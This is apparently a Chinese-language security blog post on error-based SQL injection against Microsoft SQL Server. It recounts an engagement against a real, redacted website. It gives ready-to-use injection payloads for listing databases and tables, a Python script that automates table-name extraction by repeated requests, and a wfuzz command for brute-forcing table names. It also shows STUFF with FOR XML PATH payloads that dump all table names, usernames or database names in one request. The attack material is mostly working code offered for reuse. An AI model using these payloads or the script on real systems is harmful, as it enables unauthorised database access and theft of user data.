 ```yaml
---
title: SQL Server注入 - STUFF与XML Path
layout: post
date: '2020-03-02'
permalink: "/archivers/2020-03-02/3"
description: 某次**，发现一处SQL Server注入点
---
```


## 背景

某次XX，发现一处SQL Server注入点

## 报错注入

SQL Server注入，一般也是先找库、再找表、再查字段、最终查询数据。

## 查库

1.查第一个：

```sql
id=1 and (SELECT top 1 Name FROM Master..SysDatabases)>0 --
```

2.NOT IN

```sql
id=1 and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master'))>0 --
```

其中，NOT IN的集合会不断增加，最终无法查出其他结果，那么这个集合就是所有的数据库名称。

## 查表

在这一步，我们就可以自动化实现了：

```python
import requests
import re

table_list = ['']

def get_sqlserver_table(table_list, table_num):
    for num in range(0,table_num):
        # print("','".join(table_list))
        sql_str = "and (select top 1 name from [xxxx].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('{}'))>0".format("','".join(table_list))
        url = "http://www.xxxxx.cn/x.aspx?cid=1' {} AND 'aNmV'='aNmV".format(sql_str)
        r = requests.get(url, headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36'})
        res = re.search(r'\'(.*)\'', r.content.decode('utf-8'),  re.M|re.I)
        table_name = str(res.group(1))
        table_list.append(table_name)
        print("[{}] - TableName: {}".format(str(r.status_code), table_name))
if __name__ == "__main__":
    get_sqlserver_table(table_list, 16)
 ```

当取得第16个的时候，还是没有出现用户表、管理员表等，而且网站抛出了错误，无法继续取，突然没有其他办法了。

![2020-03-01-11-34-21](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/d60590ed04ec4d3da6e917429c7cc4d4.png)


先来分析一下语句：

```sql
cid =1 and (select top 1 name from [数据库名称].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in (''))>0 AND 'aNmV'='aNmV
```

这是第一次请求的Payload，集合这里我写个空，不管怎样，集合都可以取得第一个表名。

第二个、第三个表名都会向集合增加，以此类推，通过SQLMAP判断，有146个表。



到第16个因为原始语句有干扰，不能继续取得后续的表名，但我不想放弃。

于是，又想到通过FUZZ的方式：

![2020-03-01-11-34-39](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/835850cccf61c6d461e1fa9e4bede6bc.png)


```
wfuzz -c -z file,/usr/shar/sqlmap/data/common-table.txt --sc 500 "http://www.xxx/xxx?cid=1%27%20and%20%20(select%20top%201%20COLUMN_NAME%20from%20xxx.information_schema.columns%20where%20TABLE_NAME=%27Hsoft_FUZZ%27%20and%20COLUMN_NAME%20not%20in(%27x%27))%3E0%20and%20%27s%27=%27s"
```

- `Hsoft_` 为前缀
- sc 500 只匹配错误页面（报错注入）

但是字典貌似不够强大，我就去查询SQL Server有没有类似将多行数据合并为一行的办法。


我知道MySQL中有GroupConcat类似的函数，但SQL Server没有，这点很遗憾~ 没有继续使用SQL Map是因为SQLMAP根本无法取得任何一个表名，期间我也分析了SQL MAP的Payload，请求实在是多，就放弃了这条线。


## STUFF与XML Path

STUFF字符串函数是将字符串插入到另一个字符串中。它会删除开始位置第一个字符串中的指定长度的字符，然后将第二个字符串插入到开始位置的第一个字符串中，语法如下。

```sql
STUFF（<character_expression>，<开始>，<长度>，<character_expression>）
<character_expression>
```

参数是给定的字符串数据，可以是字符或二进制数据的常量，变量或列。`<start>`参数是一个整数值，指定开始删除和插入的位置，可以是BIGINT类型。如果`<开始>`或`<长度>`参数为负数，则返回NULL字符串。如果`<start>`参数比第一个`<character_expression>`长，则返回一个NULL字符串。 <length>参数可以是BIGINT类型，它是一个整数，指定要删除的字符数。如果<length>比第一个`<character_expression>`长，则删除发生到最后一个`<character_expression>`中的最后一个字符。


STUFF最常见的用途莫过于结合FOR XML PATH对返回JSON字符串的拼接。首先利用FOR XML PATH则返回XML格式的字符串，我们将FOR XML PATH添加到查询的末尾，此时允许我们将查询的结果作为XML元素输出，元素名称包含在PATH参数中。

如：

```sql
SELECT name FROM dbo.base_pay_type WHERE is_enabled = 1
```

类似的SQL可能会返回多行数据，因此可以通过STUFF与XML PATH集合使用：


- 将查询到的数据转换成行，以逗号隔开，以`[]`包裹


```sql
SELECT STUFF((SELECT  '[' + name + '],'  
FROM(SELECT name FROM dbo.base_pay_type WHERE is_enabled = 1) a  FOR  XML PATH('')  ), 1,0, '') AS Name 
```

![2020-03-01-11-35-00](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/7fadd9802ea0134308ad9c8e3e1fa7eb.png)

直接套用到注入场景：

```sql
SELECT STUFF((SELECT  '[' + name + '],'  FROM(SELECT name from 数据库名称.sys.all_objects where type='U' AND is_ms_shipped=0) a  FOR  XML PATH('')  ), 1,0, '')
```


在sql shell中直接执行即可返回所有表名：

![2020-03-01-11-35-15](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/f1db9589f0c703b6ff101490ab00b90e.png)

所有表名以`[表名],`分割。

通过这个办法，我们可以套用很多需要多次请求注入的需求，如：

- 取得某个表10个用户名

```sql
SELECT STUFF((SELECT  '[' + username + '],'  FROM(SELECT Top 10 username from 数据库名称.User ) a  FOR  XML PATH('')  ), 1,0, '')
```

- 取得所有数据库名

```sql
SELECT STUFF((SELECT  '[' + Name + '],'  FROM(SELECT  Name from Master..SysDatabases ) a  FOR  XML PATH('')  ), 1,0, '')
```

其他场景自行想象！
